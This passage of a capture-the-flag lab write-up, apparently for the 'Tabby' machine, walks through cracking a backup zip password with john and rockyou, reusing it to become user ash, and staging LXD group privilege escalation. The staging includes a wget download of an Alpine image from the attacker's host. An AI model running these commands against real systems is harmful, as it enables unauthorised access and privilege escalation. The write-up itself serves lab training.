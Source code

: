 ```
Once that has completed it is time to crack the file using john &amp; rockyou...standard...

``` john backup.zip.john --wordlist=/usr/share/wordlists/rockyou.txt ```

![](/img/tabby/2020-12-09_08-26.png)

**Password:** admin@it

EVERYTHING IS EMPTY

Turns out user Ash just reuses his passwords…

``` 
su ash 
```

![](/img/tabby/2020-12-09_08-29.png)

User.txt located

![](/img/tabby/2020-12-09_08-35.png)

The linpeas.sh script didn&#39;t really tell me anything interesting, although it did point out that ash in a member of the lxd group.

![](/img/tabby/2020-12-09_09-23.png)

We are going to create an image using the lxd-alpine-builder.

``` 
git clone https://github.com/saghul/lxd-alpine-builder.git 
```

For this vulnerability to work, we have to do a few things as root on our host.

``` 
su root
cd lxd-alpine-builder/
./build-alpine 
```

![](/img/tabby/2020-12-09_09-31.png)

Once that has built, I want to transfer the file **alpine-v3.12-x86\64-20201209\0904.tar.gz** over to the target machine.

Setting up a webserver again to do this

``` 
python -m SimpleHTTPServer 800 
```

Moving back to the targets shell, using wget to download the file I just created as root on my host.

``` 
wget http://10.10.14.60:800/alpine-v3.12-x86_64-20201209_0904.tar.gz 
```

![](/img/tabby/2020-12-09_09-34.png)

``` 
lxc image import /dev/shm/alpine-v3.12-x86\_64-20201209\_0904.tar.gz --alias ryku-image
lxc image list 
```
```